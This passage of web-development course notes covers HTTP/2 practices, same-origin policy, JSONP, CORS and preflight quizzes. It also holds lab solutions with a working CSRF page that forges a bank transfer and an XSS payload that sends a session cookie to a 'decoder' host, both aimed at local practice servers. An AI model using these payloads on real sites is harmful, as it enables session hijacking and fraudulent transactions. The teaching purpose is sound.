### 4.6 Quiz: HTTP/1 vs HTTP/2
In this exercise, I want you to see the difference between loading a site over HTTP/1 versus loading it over HTTP/2.

You'll find the binary [here](http://video.udacity-data.com.s3.amazonaws.com/topher/2016/December/58406627_ud897-l4-http2-binary/ud897-l4-http2-binary.zip).

Download it, and start it using the console. It will start both an HTTP/1 server, as well as an HTTP/2 server.

Both servers actually host the exact same web site. Use dev tools to figure out the reduction in total bytes transferred. Enter the percentage difference then figure out how much the load time increased and enter that percentage.

#### 4.6 Solution
This is the result for the HTTP/1 server, and next to it is the result for the HTTP/2 server.

[](../assets/images/cs4-17.jpg)

The HTTP/1 server transferred 336 kilobytes, while the HTTP/2 server transferred only 177 kilobytes. That's roughly a 47% reduction in transferred bytes.

That's almost half the number of bytes!

Not surprisingly, the HTTP/2 server also loaded the site a lot faster. It loaded the site, and all its assets, in 911 milliseconds. The HTTP/1 server took a total of 2.86 seconds. That's roughly a 68% increase in speed.

So the HTTP/2 server is a lot faster and also transfers less information.

### 4.7 HTTP/2 Best Practices
HTTP/2 brings a lot of changes. But how do we transition from HTTP/1 to this amazing HTTP/2 world? What do we have to do to cater to all the users out there in the best possible manner?

Requests are now cheap with head-of-line-blocking gone and new header compression in HTTP/2.

So things like concatenating your JavaScript or CSS are not necessary anymore and in actuality can make things worse.

Think about updating a cached file. If you fix a typo in a JavaScript file, like a missing curly brace, you would force your users to re-download the entire concatenated blob of JavaScript instead of just the fragment that actually changed.

[](../assets/images/cs4-18.jpg)

If each JavaScript file was separate, you would only invalidate the cache for that single file.

Another advantage is the new header compression becoming more effective the more requests are sent. The more requests are sent, the more headers can be re-used.

[](../assets/images/cs4-16.jpg)

That means that having multiple connections to different servers is actually bad for your performance.

That being said, minifying and compressing your JavaScript, CSS, and images is still a good idea. A byte saved is a byte saved. And especially in developing countries, that means saved money.

Additionally, all the advice given for rendering performance like deferring a JavaScript or inlining styles is still valid. And so is investing time in building proper offline support with service workers.

Most importantly, HTTP/2 is backwards compatible. All servers that speak HTTP/2 will be able to speak HTTP/1. A client that can't speak HTTP/2 will just fall back to HTTP/1 and keep working as before. And those clients are becoming exceedingly rare.

So don't be scared of working with HTTP/2. As of October 2018, 83% of the global traffic supports HTTP/2 and 91% of US traffic supports it as well.

So it is fair to say that you can optimize your web for HTTP/2 without paying much attention to HTTP/1 anymore as this number will only grow.

#### HTTP/2 Do
- Do minify & compress
  - JavaScript
  - CSS
  - Images
- Do defer & async js where appropriate
- Do inline scripts or styles where necessary
- Do use Service Worker for caching and offline content

#### HTTP/2 Don't
- Don't concatenate scripts & styles into a bundle. Keep files separate.

### 4.8 Quiz: Techniques
With all of the changes and improvements that HTTP/2 brings, we need to change the way we develop our sites.

Which of the following techniques should be used to in developing for HTTP/2?

- Should you minify your JavaScript?
- What about concatenating it?
- Should you minify or concatenate your CSS?
- Should you still use image spriting techniques?
- What about a content delivery network?
- Should you shard your assets?
- Should you minify your markup?

#### 4.8 Solution
Here are the answers for this quiz.

[](../assets/images/cs4-19.jpg)

### 4.9 Conclusion
As far as we are concerned, HTTP/2 works the exact same way HTTP/1 does. What changes is the performance and the precautions you have to take.

You should start building a web app with HTTP/2 in mind since the number of browsers that don't support HTTP/2 is getting smaller and smaller.

If you're running your own server or trying to figure out where to host your web yourself, make sure to enable HTTP/2 there too.

In the next lesson, we'll take a look at more security measures like cross-origin resource sharing, same-origin policy, and cross-site scripting.

You might even get the chance to do some hacking yourself.

## 5. Security
### 5.1 Security Intro
Thanks for coming back. Now you might be asking yourself, why are we talking about security again? I mean, we've already talked about TLS and its use in HTTPS.

HTTPS covers many angles of attack for things like eavesdropping on your traffic,or just impersonating the web server as a whole. However, the most secure front door in the world will not be worth anything if there's a ladder to the first floor window. The ladder being your web app.

HTTP contains some very subtle security risks. On top of that, the history and backwards compatibility of the HTTP protocol carries a lot of baggage from a time where security wasn't as big of a topic as it is now.

In this lesson, we are going to learn how certain design choices could have allowed an attacker to steal sensitive data, and how you as a web developer can protect you web app against such attacks.

### 5.2 Origins
As a general rule of thumb, JavaScript is not allowed to access the data of any other origin than its own.

An origin is made up of three parts-

- the data scheme
- the host name
- the port

For the page you're on right now, the scheme is `HTTPS`, the host name is `www.udacity.com`, and the port is `443`.

If you change any of these parts, you are on a different origin and different rules will apply.

Apart from the mixed content problems we talked about earlier, this is another reason to not mix HTTP and HTTPS URLs.

But what are these rules that apply once you are working across multiple origins?

First of all, you can't make fetch requests to other origins. Actually, under certain criteria you can, but then you can't read the answer.

[](../assets/images/cs5-1.jpg)

Secondly, you cannot inspect IFrames or windows with JavaScript if they are from another origin.

These rules make a lot of sense if you think about it. 

Let's assume I was allowed to make fetch requests to other origins. I could just set up a website that makes fetch requests to facebook.com and steal all your Facebook messages.

Or even worse, I could make fetch requests to udacity.com and make you drop out of all of your Udacity classes. No, we don't want that.

This restriction, or rule, is called the `same-origin policy`.

### 5.3 Origins 2
We just learned some rules. But if there are rules, then there are exceptions to those rules.

As you're very well aware of, we're allowed to include:

- stylesheets
- images
- videos
- IFrames
- scripts from other origins
- and send form data to other origins

[](../assets/images/cs5-2.jpg)

The end user won't be able to tell that one image is loaded from our server while another is loaded from Instagram. However, for web developers, there is a difference.

You can't interact with an image tag that is showing a cross origin image in the same way you could with an image from the same origin. For example, you can't inspect the pixels of the image from inside the Canvas element.

The same goes for a script tag that includes a cross origin script resource.

[](../assets/images/cs5-3.jpg)

The contents will either just silently appear empty, or in case of more modern APIs, it will explicitly throw an error.

For the same origins script tag, I have access to its contents but I can't access the other origin scripts contents. 

It's important to keep in mind that the user's browser is the one who enforces the same origin policy. It's not the server but the client that will not let you send off requests.

[](../assets/images/cs5-4.jpg)

We'll see why this is important as we look into getting around same origin policy restrictions in the next video.

### 5.4 Overriding Same Origin Policy
Sometimes you want to allow other people to access your resources even if they are from another origin.

This is mostly relevant for API providers who want other sites to be able to use the service, but the `same-origin-policy` prevents this.

Nowadays, you can easily achieve this sharing of resources with a set of HTTP headers called **Cross Origin Resource Sharing** or **CORS**, for short.

[](../assets/images/cs5-5.jpg)

This is the most powerful engineering solution to the single-origin problem. But up until a few years ago, the browser support for CORS was rather lacking and people had to come up with their own techniques to work around the *single-origin-policy* in the meantime.

One of the oldest techniques is called **JSONP**, JSON with Padding.

[](../assets/images/cs5-6.jpg)

Instead of simply returning data, JSONP returns a script containing the data. This exploits the fact that the scripts from other origins will execute and share the execution environment with your own scripts.

JSONP-based APIs expect to include the function name as a query parameter. The server will return a new script calling the function that you named.

Let's look at a fictional example. Let's say we are building an app at `yourcourselist.com` that wants to list all the university courses the user is enrolled in.

The naive approach would be to make a fetch request to API, `udacity.com` and use the return data to generate a list for the user. 

[](../assets/images/cs5-7.jpg)

However, this will fail with a security exception as your host differs from Udacity's host.

[](../assets/images/cs5-8.jpg)

How would this API look if it supports JSONP? Add a function name to the URL and include it with a script tag.

[](../assets/images/cs5-9.jpg)

The server will wrap all the data it needs to return in a function call with the same name as given via the query parameter.

[](../assets/images/cs5-10.jpg)

You need to define this function because when the response is returned the function call is executed and you now have access to the data for the parameter of that function.

[](../assets/images/cs5-11.jpg)

Here's an example of JSONP in action.

- [JSONP Example on JSBin](https://jsbin.com/roxapu/3/edit?html,js,console)

#### Message passing
Another technique that was explicitly designed to allow cross-origin communication is called **message passing**. `postMessage()` is a function that can be called to pass a message to other windows and iframes, even if they come from a different origin. This creates a `message` event you subscribe to like any other event. For security, the receiver can inspect the message’s origin and content.

While postMessage is much cleaner and allows more granular control than the other cross-origin options, it sadly hasn’t been as widely adopted by API providers.

### 5.5 CORS
CORS has been adopted by API providers as the primary way to share resources.

[](../assets/images/cs5-12.jpg)

CORS Headers permit cross origin requests without relying on JavaScript, though they do need some server side code.

[](../assets/images/cs5-13.jpg)

CORS Headers allows servers to specify a set of origins that are allowed to access its resources.

If the request referrer header is on that list, it will be able to inspect the answer and use the data. Problem solved.

[](../assets/images/cs5-14.jpg)

However, if you take a closer look, you will realize that by the time the server sends back the headers, the request will already have executed. This can become problematic with destructive operations, because it is already too late to ignore the request.

This is where preflight requests come into play.

A preflight request uses the OPTIONS method and allows the browser to signal that it only wants to check what is allowed and what is not. The server should not execute any kind of business logic, but only return the headers, similar to a head request.

[](../assets/images/cs5-15.jpg)

However, not all requests will be preflighted. Requests that are made because of image tags or forms will not be preflighted. So any kind of get request will be sent straight away. You just won't be able to read the answer if CORS doesn't allow it.

The details about when preflight requests are actually sent with CORS are a bit detailed. If you wish to read more you can check out the link below.

- [preflight requests and CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS#Preflighted_requests)

Now, we have a couple of ways to get around the single origin restriction.

If you're ever involved in publishing an API yourself, I'd encourage you to think about CORS from the very beginning and to enable it on your server.

### 5.6 Quiz: Preflight CORS 1
The next couple of exercises will give you some hands-on experience with a few different HTTP requests.

You need to determine if the request is preflighted or not and if it is preflighted, which line causes it to be preflighted?

So launch the server. And then reconstruct this request in the fetch tool.

[](../assets/images/cs5-16.jpg)

Use Dev Tools to see that some requests are executed right away, while others send a preflight request.

You'll know it's been preflighted if it uses the OPTIONS method.

Play around with the requests until you figure out what makes the browser preflight the request.

#### 5.6 Solution
First I need to see which method is used so I'll turn off some of these other distracting columns and turn on the Method column.

Since this request is identical to the request I want to send, I'm not going to change anything.

[](../assets/images/cs5-17.jpg)

This GET request was sent successfully and since there isn't it OPTIONS request listed here, this request was not preflighted. 

This is referred to as a "simple request". Simple requests take place with GET, HEAD, and POST methods.

When I change the method to PUT this triggers a preflight to take place according to the [preflight rules of the CORS spec](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Preflighted_requests).

[](../assets/images/cs5-18.jpg)

Below I change the method back to GET which should trigger a simple request but since I changed the Content-Type header to a value other than the ones allowed for a simple request, a preflight is also triggered.

[](../assets/images/cs5-19.jpg)

### 5.7 Quiz: Preflight CORS 2
Just like the previous quiz,you need to determine if the request is preflighted or not and if it is preflighted, which line or lines causes it to be preflighted.

[](../assets/images/cs5-20.jpg)

#### 5.7 Solution
Running this request shows the options method. So I know it's been pre-flighted,but I don't know if it's because it's the POST requestor if it's from the X-Forwarded-For header.

If I delete the header and rerun the request, it doesn't use the options header,so I know that the X-Forwarded-For header caused the request to be pre-flighted.

[](../assets/images/cs5-21.jpg)

### 5.8 Quiz: Preflight CORS 3
Just like the previous two quizzes, you need to determine if the request is preflighted or not. If it is preflighted, which line or lines causes it to be preflighted?

[](../assets/images/cs5-22.jpg)

### 5.8 Solution
Sending this request shows the OPTIONS method. So it's been preflighted.

[](../assets/images/cs5-23.jpg)

If I delete the header and send the request again, it's still been preflighted. And if I add the header back in and change the method to something I know isn't preflighted, like GET, then it doesn't use the OPTIONS header.

[](../assets/images/cs5-24.jpg)

So the Accept header doesn't cause a preflight, but the PUT method does.

### 5.9 Security Exploit - CSRF
As we just learned, requests that looked just like they came from a form will not be preflighted.

You can't read the response if CORS doesn't allow it. But sometimes you might not need to see the response to wreak havoc.

Imagine a bank that has a form to transfer money. If you are not a good person, you can wire the money to your own account. You don't care about what the server answers. You simply set up a website that forges a request of the same URL the form uses and set the parameters so that the money is wired to you and the user won't even notice.

That's why this kind of attack is called **Cross-Site Request Forgery** or CSRF. 

[](../assets/images/cs5-25.jpg)

Of course, banks have sophisticated protection mechanisms. But for most purposes, a CSFR token is protection enough.

A CSFR token is an additional field appended to a form that has been put there by the server, and it's stored server site as well.

If someone is submitting a request, the CSFR checks that token against the one it has stored and only executes requests if these tokens match.

### 5.10 Quiz: CSRF
Do you remember that fictional bank we talked about with the exploitable money transferform? Well, it's real and we want you to exploit its weakness.

The server for this project has two endpoints, a bank's website and an evil URL, where you'll be able to place your code.

The bank's URL gives us a Login page for the bank's website. The password is "`super secret password`".

Here's the bank's beautifully designed Balance page.

[](../assets/images/cs5-26.jpg)

What you need to do is send the umbrella corporation 666 units.

But you can't just do it here on this site. The other URL is the evil site. This site hosts anything you put in the evil directory, so you need to create a website that will send a CRF request to the bank.

This quiz will take a number of steps to complete, but you're hacking a fake bank so it's awesome.

1. You need to sign into the bank's website so that the evil website will have access to your login cookie.
2. Then create a website in the Evil folder that will send a POST request to the bank's `/transer` URL.
3. The posted data needs to set the recipient to umbrella corp and the amount is 666.
4. To send along the cookie data in a Fetch request, the credentials flag needs to be set to Include.
  
If you do everything correctly, the server will give you a token. Now, that's the server not the browser's console, so check the terminal.

[](../assets/images/cs5-27.jpg)

#### 5.10 Solution
I've logged into the bank, so the log in cookie is set in my browser. Opening up DevTools, I can see the cookie here.

[](../assets/images/cs5-28.jpg)

Now I need to create a website that will send the forged request. 

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>Evil Form</title>
</head>
<body>
  <label for="recip">Recipient:</label>
  <input type="text" name="recip" id="recip" value="Umbrella Corp"><br>
  <label for="amt">Amount</label>
  <input type="text" name="amt" id="amt" value="666"><br>
  <button id="send">Send</button>
<script>
  window.onload = function() {
    const recip = document.querySelector('#recip');
    const amt = document.querySelector('#amt');
    const btn = document.querySelector('#send');
    btn.addEventListener('click', handlePost, false);

    function handlePost(e) {
      e.preventDefault();
      const data = `recipient=${recip.value}&amount=${amt.value}`
      console.log(data);

      fetch('http://bank.127.0.0.1.xip.io:8080/transfer', {
        method: 'POST',
        mode: 'no-cors',
        credentials: 'include',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: data
      })
        .then(response => response.text())
        .then(text => console.log(text))
        .catch(err => console.log(err));
    }
  }
</script>
</body>
</html>
```

When they click the button, I want a request to be sent off to the bank's transfer URL.

The transfer URL is expecting a post request. The body of the request needs to be the recipient, and the amount of money being transferred.

Since this is a POST request, the Content-Type header has to be set to `application/x-www-form-urlencoded`.

Now this code will send a request, but the bank's web site checks for a specific cookie. `credentials: 'include'` sends along cookies for this domain. If the user is already logged into the bank, then the browser has the login cookie, and automatically includes it when the request is sent.

Lastly, clicking the button sends the request.

In DevTools, I can see the request that just got sent. And here is the cookie that got set in the other tab.

[](../assets/images/cs5-29.jpg)

Refreshing the bank site, I see this new entry. It worked.

[](../assets/images/cs5-30.jpg)

This was an involved exercise, so great job.

### 5.11 Security Exploit - XSS
Whenever a website shows a user's input, you need to be careful and vigilant. A user's input can be anything and it is your responsibility to make sure it won't break your site.

A clueless user might break it by accident, an evil user might exploit this flaw and make your website do things that it did not intend at all.

Not validating user input is one of the oldest vulnerabilities on the web and is called cross-site scripting or XSS for short.

[](../assets/images/cs5-31.jpg)

The name comes from the fact that JavaScript can be injected into another site where it gets executed and has access to all of its site's data.

A typical example is a website that asks for a user's name when they want to leave a comment. If this input is not validated, a user's name can be crafted in such a way that it contains JavaScript code. That means that every user reading that comment will only see the name, but the code will be executed without the user's knowledge.

[](../assets/images/cs5-32.jpg)

In the grand scheme of things, this example here is rather harmless. But the script has access to all of the site's data, including the dom and cookies.

It could even make fetch requests from the site's origin. A well-crafted XSS exploit can be detrimental. The only way you can secure yourself against these kinds of attacks is to follow a golden rule that always applies in software engineering. Validate your user's input server-side.

### 5.12 Quiz: XSS
The server for this project has two end points, a bad website URL and a decoder URL.

The bad website page has a form that is vulnerable to cross site scripting.

You need to exploit this vulnerability by sending this site's cookie to the decoder website.

To complete this quiz, create a `fetch` request using the URL below. You need to use JavaScript to set the key to the value of the bad website's SESSION_ID cookie.

[](../assets/images/cs5-33.jpg)

If you did everything correctly, the server will give you a pass phrase. And that's the server, not the browser's console, so check the terminal.

#### 5.12 Solution
The URL I need for fetch is

```html
http://decoder.127.0.0.1.xip.io:8080/?key=
```

Now I need to set the `key` value to the SESSION_ID in cookie. `document.cookie` gets all of the cookies. Then I'll split on the equal sign and I'll get the cookies value.

```js
document.cookie.split('=')[1];
```

This code is rather naive and assumes that the session ID cookie is the very first one, which it is, in this case.

```bash
james
> <script>
> fetch('http://decoder.127.0.0.1.xip.io:8080/?key='
> +document.cookie.split('=').[1]);
> </script>
```

[](../assets/images/cs5-34.jpg)

If I wanted a more robust script I might have used this.

```js
document.cookie.slice(
    document.cookie.indexOf('SESSION_ID')
).split('=')[1]
```

### 5.13 Security Summary
Security is not an easy subject, and the issues we covered in this lesson are not sufficiently fixable on just the front end.

Your back end, whatever it is, needs to implement validation as well to be properly secured against CSRF and cross-site scripting attacks.

What you have learned here is how to spot potential vulnerabilities, and how to verify if they are exploitable.

Whenever you are about to add any kind of input field in your web app, you should immediately start thinking about cross-site scripting and CSRF, and whether there are potential risks that need to be mitigated.

You'll do yourself and your users a big favor.

### 5.14 Course Wrap-up
Making a server and a client communicate with each other isn't that hard, but doing it correctly, efficiently, and securely is a much more complex task than it might seem.

We have covered a lot of topics in this course. We've taken a look at 

- the request and response cycle, where the browser and the server get connected with each other.
- HTTP's verbs, headers, REST, and performance issues.
- HTTPS, TLS, and cryptography
- HTTP/2 and all the amazing benefits it brings to the web ecosystem.
- security precautions with the same origin policy, ways to get around that policy, and then some vulnerabilities like CSRF and cross-site scripting.

We covered a lot of techniques, but the important thing to keep in mind throughout all of this is keeping your user secure.

Thanks for joining us on this journey of client server communication.